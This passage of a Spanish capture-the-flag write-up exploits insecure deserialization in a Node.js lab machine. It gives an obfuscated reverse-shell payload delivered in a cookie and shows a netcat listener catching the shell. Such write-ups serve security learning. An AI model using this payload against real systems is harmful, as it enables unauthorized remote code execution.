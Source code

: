 ```bash
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,54,46,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Podemos ver los "()" al final del payload para que cuando en el servidor se deserialicen los datos se ejecute la revshell. Vamos a hacer el encode en formato url y le pasaremos el payload al servidor a través de la cookie.

![](/assets/images/NodeBlog/img8.png)


Si miramos nuestro listener podemos ver que tenemos una shell.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
10.10.11.139: inverse host lookup failed: Unknown host
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.139] 43494
Connected!
id
uid=1000(admin) gid=1000(admin) groups=1000(admin)
```
